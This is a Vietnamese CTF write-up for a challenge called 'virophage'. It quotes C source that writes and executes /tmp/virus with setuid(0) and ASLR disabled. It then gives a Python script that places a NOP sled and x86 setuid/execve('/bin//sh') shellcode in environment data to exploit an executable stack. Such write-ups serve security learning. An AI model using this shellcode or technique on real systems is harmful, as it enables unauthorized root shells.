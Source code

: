 ```c
		.phdr = {
			.p_type = PT_NULL,
		},
	};
	int fd, r;

	data.ehdr.e_phoff = (void *)&data.phdr - (void *)&data;

	fd = _vp_sys_open(path, O_WRONLY | O_CREAT | O_EXCL, 0500);
	if (fd < 0)
		_vp_error(1, _vp_errno, "open(virus)");

	r = _vp_sys_write(fd, &data, sizeof(data));
	if (r < 0)
		_vp_error(1, _vp_errno, "write(virus)");
	if (r != sizeof(data))
		_vp_error(1, 0, "write(virus): bad size written");

	_vp_sys_close(fd);
}
...
```
Mình thấy đáng lưu ý nhất ở hàm `virophage_write_virus`, biến `phage` là giá trị do người dùng nhập vào thông qua hàm `virophage_request_phage`, `phage` chính là entry-point cho một file
elf có tên là `/tmp/virus`.

Điều đáng lưu ý ở đây là file `/tmp/virus` không có text segment.

```c
...
	virophage_write_virus("/tmp/virus");

	if (_vp_sys_setuid(0) < 0)
		_vp_error(1, _vp_errno, "setuid(0)");
	if (_vp_sys_personality(ADDR_NO_RANDOMIZE) < 0)
		_vp_error(1, _vp_errno, "personality(ADDR_NO_RANDOMIZE)");

	WRITE_STRING_LITERAL(STDOUT_FILENO, "execve...\n");
	_vp_sys_execve("/tmp/virus", argv, envp);
	_vp_error(1, _vp_errno, "execve(virus)");
```

Đáng chú ý hơn là ở hàm `virophage_main`, nó set `ADDR_NO_RANDOMIZE` và truyền envp vào hàm execve thực thi `/tmp/virus`.

Ở local, mình debug bằng root user:

![image](https://github.com/robbert1978/robbert1978.github.io/assets/31349426/c03a607a-86e4-401c-93be-bb591086f41a)

... thì mình phát hiện ra stack được set là rwx, để ý là envp của process cha được truyền vào, thế là mình nghĩ đến việc chèn shellcode vào envp.

```py
"""
Debug kernel with qemu

Shellcode in 0xffffdf4b
"""
pad = b"HeheIamHere"
pad += b'\x90'*0x100
f = open("lol","wb")
f.write(pad)
shellcode = b"\x31\xC0\x31\xDB\xB0\x17\xCD\x80\x31\xC0\x99\x50\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3\x50\x53\x89\xE1\xB0\x0B\xCD\x80"
f.write(shellcode)
f.close()
```
